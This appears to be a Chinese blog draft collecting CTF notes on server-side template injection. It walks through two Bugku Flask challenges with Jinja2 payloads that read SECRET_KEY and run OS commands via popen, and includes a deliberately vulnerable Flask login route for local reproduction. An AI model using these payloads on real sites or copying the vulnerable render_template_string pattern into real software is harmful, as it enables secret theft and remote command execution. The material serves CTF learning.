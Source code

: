 ```yaml
---
author: "Yiming Shen"
date: 2021-07-22
lastmod: 2021-07-22
title: "SSTI类型题目积累及资料"
tags: [
    "CTF",
    "Web",
    "SSTI",
    "Note",
]
categories: [
    "Notes",
     "CTF",
]
math: true
draft: true
typora-root-url: ..\static\
---
```


## SSTI类型介绍

SSTI即服务端模板注入攻击，服务端接收用户输入，将其作为Web应用模板的一部分，渲染编译后执行了恶意内容，导致敏感信息泄露、代码执行等。

工具：*tplmap*、*hackbar*

按这张图可以测试出具体是什么模板引擎：

![img](https://upload.nsg.cn/uploads/images/202009/26/9/8sFfzWRJrj.png!large)

### 1. Simple_SSTI_1

[Simple_SSTI_1](https://ctf.bugku.com/challenges/detail/id/196.html?page=3)

进入环境后，使用开发者工具查看网站源代码，发现一句提示：

> You know, in the flask, We often set a secret_key variable.-->

根据提示可以得出

1. 采用了flask框架

2. flag很有可能存储在secret_key中

尝试get注入：`?flag={{config.SECRET_KEY}}`

成功~

### 2.Simple_SSTI_2

[Simple_SSTI_2](ctf.bugku.com/challenges/detail/id/203.html)

题目提示了进行模板注入，套用魔术方法。

> /?flag={{config.__class__.__init__.__globals__['os'].popen('ls >   >../').read()}}
>
>   

![在这里插入图片描述](https://img-blog.csdnimg.cn/20210310204413618.png)

发现存在以下文件夹，利用cd命令进入查看后，发现第一个app文件夹内有flag文件

> cat ../app/flag

查看flag文件，得解。

#### 本题思考

利用Python-flask框架搭建简易网站复现SSTI漏洞如下：

```Python
from flask import Flask
from flask import render_template
from flask import render_template_string
from flask import request
app=Flask(__name__)
@app.route("/login")
def login():
    username=request.args.get("flag")
    html='''
    <h1> Python本地网站-Login %s</h1>
    '''%(username)
    return render_template_string(html)

if __name__=="__main__":
    app.run(debug=True)
```

浏览器访问127.0.0.1:5050/login 

搭建成功~

传入表达式：?flag={{2**64}}

真不错，用Python高精度计算

``` shell
?name={{%27%27.__class__.__mro__[1].__subclasses__()[213].__init__.__globals__[%27__builtins__%27][%27__import__%27](%27os%27).popen("dir").read()}}
```

使用Windows平台下的命令get注入即可访问本地文件。

